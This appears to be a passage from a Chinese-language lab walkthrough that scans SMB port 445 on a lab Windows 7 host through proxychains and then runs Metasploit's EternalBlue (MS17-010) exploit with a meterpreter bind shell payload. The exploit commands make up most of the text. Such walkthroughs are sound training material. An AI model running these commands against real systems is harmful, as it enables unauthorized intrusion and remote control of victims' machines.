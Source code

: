 成功访问Win7-3:192.168.77.129

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap -Pn -sT -p 445 192.168.77.129
```

![image-20211015125219692](/assets/image-20211015125219692.png)



漏洞利用：

```
┌──(kali㉿kali)-[~]
└─$ proxychains msfdb run
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.77.128
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

![image-20211015143750876](/assets/image-20211015143750876.png)
